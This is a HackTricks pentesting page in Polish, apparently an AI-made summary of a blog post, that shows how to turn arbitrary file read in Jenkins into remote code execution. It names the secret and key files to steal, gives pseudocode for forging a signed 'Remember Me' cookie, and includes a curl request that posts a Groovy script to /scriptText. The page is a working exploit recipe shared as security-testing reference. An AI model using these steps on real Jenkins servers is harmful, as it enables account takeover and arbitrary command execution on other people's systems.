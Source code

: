 # Jenkins Arbitrary File Read to RCE via "Remember Me"

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

W tym wpisie na blogu można znaleźć doskonały sposób na przekształcenie podatności Local File Inclusion w Jenkins w RCE: [https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/](https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/)

To jest podsumowanie stworzone przez AI części wpisu, w której nadużywa się stworzonego arbitralnego ciasteczka, aby uzyskać RCE, nadużywając odczytu lokalnych plików, aż będę miał czas, aby stworzyć własne podsumowanie:

### Wymagania wstępne ataku

* **Wymaganie funkcji:** "Zapamiętaj mnie" musi być włączone (domyślne ustawienie).
* **Poziomy dostępu:** Atakujący potrzebuje uprawnień Ogólnych/Odczytu.
* **Dostęp do sekretów:** Możliwość odczytu zarówno zawartości binarnej, jak i tekstowej z kluczowych plików.

### Szczegółowy proces eksploatacji

#### Krok 1: Zbieranie danych

**Pobieranie informacji o użytkowniku**

* Uzyskaj konfigurację użytkownika i sekrety z `$JENKINS_HOME/users/*.xml` dla każdego użytkownika, aby zebrać:
* **Nazwa użytkownika**
* **Ziarno użytkownika**
* **Znacznik czasu**
* **Hash hasła**

**Ekstrakcja klucza sekretnego**

* Wyodrębnij klucze kryptograficzne używane do podpisywania ciasteczka:
* **Klucz sekretu:** `$JENKINS_HOME/secret.key`
* **Klucz główny:** `$JENKINS_HOME/secrets/master.key`
* **Plik klucza MAC:** `$JENKINS_HOME/secrets/org.springframework.security.web.authentication.rememberme.TokenBasedRememberMeServices.mac`

#### Krok 2: Fałszowanie ciasteczka

**Przygotowanie tokena**

*   **Oblicz czas wygaśnięcia tokena:**

{% code overflow="wrap" %}
```javascript
tokenExpiryTime = currentServerTimeInMillis() + 3600000  // Dodaje jedną godzinę do bieżącego czasu
```
{% endcode %}
*   **Konkatenacja danych dla tokena:**

{% code overflow="wrap" %}
```javascript
token = username + ":" + tokenExpiryTime + ":" + userSeed + ":" + secretKey
```
{% endcode %}

**Deszyfrowanie klucza MAC**

*   **Deszyfruj plik klucza MAC:**

```javascript
key = toAes128Key(masterKey)  // Konwertuj klucz główny na format klucza AES128
decrypted = AES.decrypt(macFile, key)  // Deszyfruj plik .mac
if not decrypted.hasSuffix("::::MAGIC::::")
return ERROR;
macKey = decrypted.withoutSuffix("::::MAGIC::::")
```

**Obliczanie podpisu**

*   **Oblicz HMAC SHA256:**

```javascript
mac = HmacSHA256(token, macKey)  // Oblicz HMAC używając tokena i klucza MAC
tokenSignature = bytesToHexString(mac)  // Konwertuj MAC na ciąg szesnastkowy
```

**Kodowanie ciasteczka**

*   **Generuj końcowe ciasteczko:**

{% code overflow="wrap" %}
```javascript
cookie = base64.encode(username + ":" + tokenExpiryTime + ":" + tokenSignature)  // Koduj dane ciasteczka w base64
```
{% endcode %}

#### Krok 3: Wykonanie kodu

**Uwierzytelnianie sesji**

* **Pobierz tokeny CSRF i sesji:**
* Wykonaj żądanie do `/crumbIssuer/api/json`, aby uzyskać `Jenkins-Crumb`.
* Przechwyć `JSESSIONID` z odpowiedzi, który będzie używany w połączeniu z ciasteczkiem "zapamiętaj mnie".

**Żądanie wykonania polecenia**

*   **Wyślij żądanie POST z skryptem Groovy:**

```bash
curl -X POST "$JENKINS_URL/scriptText" \
--cookie "remember-me=$REMEMBER_ME_COOKIE; JSESSIONID...=$JSESSIONID" \
--header "Jenkins-Crumb: $CRUMB" \
--header "Content-Type: application/x-www-form-urlencoded" \
--data-urlencode "script=$SCRIPT"
```

* Skrypt Groovy może być użyty do wykonywania poleceń na poziomie systemu lub innych operacji w środowisku Jenkins.

Przykład polecenia curl pokazuje, jak wykonać żądanie do Jenkins z niezbędnymi nagłówkami i ciasteczkami, aby bezpiecznie wykonać dowolny kod.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
